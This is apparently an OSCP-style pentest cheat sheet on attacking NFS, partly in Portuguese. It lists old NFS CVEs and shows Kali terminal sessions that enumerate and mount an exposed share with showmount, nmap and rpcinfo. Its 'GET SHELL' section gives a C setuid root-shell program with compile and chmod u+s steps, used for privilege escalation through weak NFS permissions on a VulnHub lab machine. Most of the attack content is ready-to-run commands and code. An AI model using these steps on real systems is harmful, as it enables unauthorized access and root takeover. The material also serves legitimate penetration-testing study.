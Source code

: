 credits: s0wr0b1ndef , gajos112 and jivoi

-----------------------------NFS DESCRIPTION-----------------------------

1. Network FILE SYSTEM

Network File System (NFS) - remote filesystem access [RFC 1813] [RFC5665]. A commonly scanned and exploited attack vector. Normally, port scanning is needed to find which port this service runs on, but since most installations run NFS on this port, hackers/crackers can bypass fingerprinting and try this port directly.

FreeBSD is vulnerable to a denial of service attack. A remote attacker could send a specially-crafted NFS Mount request to TCP port 2049 to cause a kernel panic, resulting in a denial of service.
References: [CVE-2006-0900] [BID-16838]

Stack-based buffer overflow in nfsd.exe in XLink Omni-NFS Server 5.2 allows remote attackers to execute arbitrary code via a crafted TCP packet to port 2049 (nfsd), as demonstrated by vd_xlink.pm.
References: [CVE-2006-5780] [BID-20941] [SECUNIA-22751]

Novell Netware is vulnerable to a stack-based buffer overflow, caused by improper bounds checking by the xnfs.nlm component when processing NFS requests. By sending a specially-crafted NFS RPC request to UDP port 2049, a remote attacker could overflow a buffer and execute arbitrary code on the system or cause the server to crash.

-----------------------------NFS MOUNT-----------------------------

2. Mount NFS share

```
root@kali:~# showmount -h
Usage: showmount [-adehv]
[--all] [--directories] [--exports]
[--no-headers] [--help] [--version] [host]
root@kali:~# showmount 172.16.1.109
Hosts on 172.16.1.109:
root@kali:~# showmount -e 172.16.1.109
Export list for 172.16.1.109:
/var/nfsshare *
root@kali:~# mkdir /tmp/nfs
root@kali:~# mount -t nfs 172.16.1.109:/var/nfsshare /tmp/nfs -nolock
root@kali:~# cd /tmp
root@kali:/tmp# ls -al
total 52
drwxrwxrwt 12 root       root       4096 Oct 30 23:22 .
drwxr-xr-x 22 root       root       4096 Sep 29 03:47 ..
...
drwxr-x---  2 nobody     4294967294 4096 Sep  2  2012 nfs
...
root@kali:/tmp# cd /tmp/nfs
```

----------------------------------------------s0wr0b1ndef----------------------------------
```
nmap -sV --script=nfs-* 172.16.1.109
nmap -sV --script=nfs-ls 172.16.1.109  //same result as rpcinfo
nmap -sV --script=nfs-* 172.16.1.109 // all nfs scripts

rpcinfo -p 172.x.x.x
rpcclient -I 172.x.x.x

#mount NTFS share
mount -t nfs 172.16.1.109:/var/nfsshare /tmp/nfs -nolock

#enumerate NFS shares
showmount -e 172.16.1.109

# If you see any NFS related ACL port open, see /etc/exports
#   2049/tcp  nfs_acl
# /etc/exports: the access control list for filesystems which may be exported to NFS clients.  See exports(5).

READ:
https://pentestlab.blog/tag/rpc/

See root squashing
https://haiderm.com/linux-privilege-escalation-using-weak-nfs-permissions/
```
--------------------------------------------------GET SHELL--------------------------------------------

Veja: https://www.securitynewspaper.com/2018/04/25/use-weak-nfs-permissions-escalate-linux-privileges/

Crie seu shell em C e compile:

```
// gcc -o /tmp/rootshell /tmp/rootshell.c
// chmod u+s /tmp/rootshell

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
setuid(0); setgid(0); system("/bin/bash");
}
```
```
root@an4kein:~/vulnhub/bravery/compile# vim rootshell.c^C
root@an4kein:~/vulnhub/bravery/compile# cat rootshell.c 
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
        setuid(0); setgid(0); system("/bin/bash");
}
root@an4kein:~/vulnhub/bravery/compile# ls
rootshell.c
root@an4kein:~/vulnhub/bravery/compile# gcc -o rootshell rootshell.c
rootshell.c: In function ‘main’:
rootshell.c:6:24: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
    6 |  setuid(0); setgid(0); system("/bin/bash");
      |                        ^~~~~~
root@an4kein:~/vulnhub/bravery/compile# ls
rootshell  rootshell.c
root@an4kein:~/vulnhub/bravery/compile# chmod u+s rootshell
root@an4kein:~/vulnhub/bravery/compile# ls
rootshell  rootshell.c
root@an4kein:~/vulnhub/bravery/compile# 
```

![rootshell](https://raw.githubusercontent.com/an4kein/PREPARATORIO_OSCP/master/NFS/IMAGES/compile_rootshell.png)
